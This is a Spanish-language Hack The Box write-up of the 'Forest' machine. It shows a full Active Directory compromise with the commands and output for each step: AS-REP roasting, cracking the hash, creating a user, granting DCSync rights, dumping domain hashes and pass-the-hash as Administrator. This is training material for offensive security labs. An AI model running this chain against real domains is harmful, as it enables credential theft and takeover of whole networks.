# Forest - Writeup HTB


## Introducción

Forest es una máquina de dificultad media que simula un ambiente de Active Directory (AD) de Windows Server 2016. La máquina explota vulnerabilidades en la configuración de Kerberos y permisos de grupo para escalar privilegios y comprometer completamente el dominio.

**Vulnerabilidades exploradas:**
- AS-REP Roasting
- Enumeración de usuarios sin protección de Kerberos Pre-Authentication
- Escalación de privilegios mediante permisos de grupo (Account Operators)
- DCSync attack para extraer hashes del dominio

---

## Reconocimiento

### Escaneo de Puertos

Realizamos un escaneo exhaustivo de todos los puertos para identificar los servicios de Active Directory:

```bash
nmap -p- --open --min-rate 1000 -Pn -n -v 10.129.95.210 -oG allPortsScan
```

**Puertos abiertos identificados:**

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49671/tcp open  unknown
49680/tcp open  unknown
49681/tcp open  unknown
49685/tcp open  unknown
49700/tcp open  unknown
```

Se identificaron múltiples puertos asociados a servicios de Active Directory.

### Escaneo de Servicios Detallado

Realizamos un escaneo más profundo para determinar las versiones exactas:

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49671,49680,49681,49685,49700 -Pn -vv -n 10.129.95.210 -sCV -oN servicesScan
```

**Resultado detallado:**

```
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-07-10 19:54:15Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC

Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-10T19:55:09
|_  start_date: 2026-07-10T19:51:08
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m33s, deviation: 4h02m31s, median: 6m32s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-07-10T12:55:08-07:00
```



**Información clave descubierta:**
- Sistema: Windows Server 2016 Standard
- Dominio: **htb.local**
- Host: **FOREST**
- Servicios Active Directory completamente funcionales

---

## Enumeración

### Enumeración DNS

Realizamos una consulta DNS para obtener información del dominio:

```bash
dig any htb.local @10.129.95.210
```

**Resultado:**

```
; <<>> DiG 9.20.22-1-Debian <<>> any htb.local @10.129.95.210
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 52884
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 3

;; QUESTION SECTION:
;htb.local.                     IN      ANY

;; ANSWER SECTION:
htb.local.              600     IN      A       10.129.95.210
htb.local.              3600    IN      NS      forest.htb.local.
htb.local.              3600    IN      SOA     forest.htb.local. hostmaster.htb.local. 119 900 600 86400 3600
htb.local.              600     IN      AAAA    dead:beef::2916:903c:ac3f:d924

;; ADDITIONAL SECTION:
forest.htb.local.       3600    IN      A       10.129.95.210
forest.htb.local.       3600    IN      AAAA    dead:beef::2916:903c:ac3f:d924

;; Query time: 107 msec
;; SERVER: 10.129.95.210#53(10.129.95.210) (TCP)
;; WHEN: Fri Jul 10 14:55:40 -05 2026
```

Se confirmó el nombre de dominio **htb.local** y la resolución correcta.

### Enumeración LDAP

Utilizamos NetExec para enumerar usuarios del directorio LDAP sin autenticación:

```bash
netexec ldap 10.129.95.210 -u '' -p '' --users
```



Esta consulta nos permitió obtener una lista de usuarios válidos del dominio sin requerir credenciales.

---

## Ataque AS-REP Roasting

### Identificación de Usuarios sin Pre-Authentication

Realizamos un ataque AS-REP Roasting para identificar usuarios que no tienen Kerberos Pre-Authentication habilitado:

```bash
netexec ldap htb.local -u users_valid.txt -p '' --asreproast asreproast.out
```



Utilizando impacket para obtener los hashes en formato hashcat:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.129.95.210 -usersfile users_valid.txt -format hashcat -outputfile hashes.txt -no-pass
```



**Hash obtenido:**

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:089242f9187a410e764866d8b3071419$09e0502569dfefe47520622249f77eda2c2bfa4c3db106381fb8e2ce4d4bd9ef439990e8967f32af88a529232009ef4693a5fdbc1a1c719132caf372db2b8baa68ece0f7d38df58d551233c72c6b710b554faaa8b1b639c7a0b5649417c40db98a220aa65a89fd0e3ce632b9ba8bd8293e7839e0111e6e742febbed1354f912752675fd99002360cf45822e49f64bcaa1dd84b1c7428df9eed7368432323aa9d8bf6851b3d70897d23f974e7d413dbdcd7b7bc75e8fea97e3bc506b951e1380b099cf463ce8116b18be1f74b291b451bae7e35a4329c5e0a7f5f2b670dafa5eb88a4fddeaeb5
```

El usuario **svc-alfresco** se identifica sin protección de Pre-Authentication de Kerberos.

### Cracking del Hash AS-REP

Utilizamos John the Ripper para crackear el hash obtenido:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.out
```

**Resultado:**

```
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
```



También se puede usar Hashcat:

```bash
hashcat -m 18200 asreproast.out --wordlist=/usr/share/wordlists/rockyou.txt
```



**Credenciales obtenidas:**
- Usuario: `svc-alfresco`
- Contraseña: `s3rvice`

---

## Acceso Inicial

### Validación de Credenciales

Verificamos que las credenciales son válidas utilizando WinRM:

```bash
netexec winrm 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```



**Resultado:**

```
WINRM       10.129.95.210   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.129.95.210   5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

### Conexión Evil-WinRM

Utilizamos evil-winrm para establecer una shell interactiva:

```bash
evil-winrm -i 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```



**Acceso inicial obtenido con éxito.**

---

## Escalación de Privilegios

### Análisis de Permisos del Usuario

Una vez dentro del sistema, analizamos los permisos y grupos del usuario actual, el usuario **svc-alfresco** pertenece al grupo **ACCOUNT OPERATORS**.

### Identificación de Escalada de Privilegios

Descubrimos que:

1. El usuario pertenece a **ACCOUNT OPERATORS**
2. El grupo **ACCOUNT OPERATORS** tiene permisos **GenericAll** sobre el grupo **EXCHANGE WINDOWS PERMISSIONS**
3. El grupo **EXCHANGE WINDOWS PERMISSIONS** tiene permisos **WriteDacl** sobre el dominio





### Creación de Usuario Privilegiado

Utilizamos el usuario comprometido para crear un nuevo usuario con privilegios:

```powershell
net user seven abc123! /add /domain
net group "Exchange Windows Permissions" seven /add
net localgroup "Remote Management Users" seven /add
```



### Otorgar Permisos DCSync

Utilizamos PowerView para otorgar permisos DCSync al nuevo usuario:

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('HTB\seven', (ConvertTo-SecureString 'abc123!' -AsPlainText -Force)) 

Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'seven' -Credential $Cred -Verbose
```

Luego otorgamos permisos de DCSync:

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('HTB\seven', (ConvertTo-SecureString 'abc123!' -AsPlainText -Force))

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=HTB,DC=local" -PrincipalIdentity seven -Rights DCSync -Verbose
```



---

## Extracción de Hashes del Dominio (DCSync)

### Ataque DCSync

Con los permisos de DCSync establecidos, utilizamos impacket-secretsdump para extraer los hashes del dominio:

```bash
impacket-secretsdump -outputfile DOMAIN_hashes -just-dc HTB/seven@10.129.95.210
```

**Resultado:**

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
...
```



Se obtuvieron exitosamente los hashes NTLM del dominio, incluyendo el hash del usuario Administrator.

### Acceso como Administrador (Pass-the-Hash)

Con el hash del Administrator, realizamos un ataque Pass-the-Hash:

```bash
netexec winrm 10.129.95.210 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```



**Dominio completamente comprometido.**

---

## Conclusión

Forest fue comprometida mediante la explotación de múltiples vulnerabilidades en cascada:

1. **AS-REP Roasting**: Explotación de usuario sin Pre-Authentication de Kerberos
2. **Credenciales débiles**: Contraseña simple ("s3rvice") crackeada de manera rápida
3. **Escalación de privilegios**: Uso de permisos heredados en grupos de Active Directory
4. **DCSync Attack**: Extracción de hashes del dominio mediante permisos WriteDacl
5. **Pass-the-Hash**: Acceso como administrador del dominio sin conocer la contraseña
